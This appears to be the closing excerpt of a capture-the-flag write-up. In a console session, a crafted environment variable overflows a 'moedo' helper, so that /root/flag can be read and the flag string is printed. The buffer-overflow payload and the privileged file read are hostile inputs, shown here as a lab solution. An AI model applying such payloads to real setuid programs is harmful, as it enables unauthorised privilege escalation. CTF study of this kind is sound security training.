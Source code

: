 ```console
moehost:~$ export MOE_CHANT="$(printf 'AAAAAAAAAAAAAAAAAAAAAAAAAA\xe\x03')"
moehost:~$ moedo cat /root/flag
UID: 1001 - GID: 1001 - Moe: 30e
AAAAAAAAAAAAAAAAAAAAAAAAAA
uctf{m45h1r0_d1dn7_61v3_up}
moehost:~$
```
BOOM! We got the flag
### FLAG
`uctf{m45h1r0_d1dn7_61v3_up}`